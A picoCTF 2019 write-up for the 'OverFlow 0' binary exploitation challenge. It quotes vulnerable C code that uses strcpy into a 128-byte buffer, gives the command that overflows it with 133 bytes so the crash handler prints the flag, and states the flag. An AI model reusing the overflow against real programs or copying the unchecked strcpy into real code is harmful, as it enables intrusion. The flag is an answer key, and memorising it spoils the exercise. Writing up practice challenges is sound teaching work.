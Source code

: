 # OverFlow 0
**Points:** 100

## Category
Binary Exploitation

## Task
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln.c).

# Solution
Upon examining the source code we can see that there's a ```strcpy()``` function used to copy the string, which is vulnerable as it doesn't check the length of input buffer and can easily cause a buffer overflow. 
```c
// header files

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  // Open flag in read mode
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  // set effective gid
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```
So we will exploit that by entering extra characters into it, which will cause the ```SIGSEGV``` signal and trigger the ```sigsegv handler``` to print the flag. Since 128 bytes is assigned to it, we will enter more alphabets than that (some extra because of the memory organization).

```bash
$ ./vuln $(python -c "print('\x65'*133)")
picoCTF{3asY_P3a5y1fcf81f9}
```

# Solution
> picoCTF{3asY_P3a5y1fcf81f9}
